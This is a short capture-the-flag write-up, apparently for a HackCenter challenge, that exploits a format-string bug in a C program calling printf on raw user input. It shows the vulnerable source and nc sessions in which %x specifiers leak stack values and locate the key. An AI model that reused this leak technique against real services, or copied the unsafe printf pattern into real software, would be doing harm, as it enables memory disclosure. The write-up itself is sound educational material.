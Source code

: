 HackCenter: https://hackcenter.com/

# Description
Leak the key from memory. Source is available at leaky.c, and the binary's running on enigma2017.hackcenter.com:14410.
	
* HINTS
	* man 3 printf
	* What does printf do if it receives a format specifier like %x, but has no more args?
	* Where is the key allocated in memory? (heap, stack, text, etc)
	* The solution is *8* hex characters

# Solution
Read some leaky.c codes first.
```c
char buf[80];
  
int main (int argc, char **argv)
{
  
    unsigned int filler0 = 0x70115011;
    unsigned int filler1 = 0x70077011;
    unsigned int key     = ???;
    unsigned int filler2 = 0x50115075;
    unsigned int filler3 = 0x70117117;
    unsigned int filler4 = 0x70075110;
    unsigned int filler5 = 0x71171075;
  
    unsigned int red = read(STDIN_FILENO,buf,80);
    buf[red] = '\x00';
    printf(buf);
}
```
'key' must be the flag we want to get.
Let's nc to the serve, and see what we will get.
```shell
Ice1187# nc enigma2017.hackcenter.com 14410
1234
1234
```
It will reflect whatever we type, interesting.
Accroding to the hint, I try the %x.
```shell
Ice1187# nc enigma2017.hackcenter.com 14410
%x
80497c0
```
It seems that it's leaking some infos, trying to leak more !
```shell
Ice1187# nc enigma2017.hackcenter.com 14410
%x.%x.%x.%x.%x
80497c0.50.80482bd.f.71171075
```
The fifth %x is the filler5 in the leaky.c, so the ninth %x is the key.
Get flag.


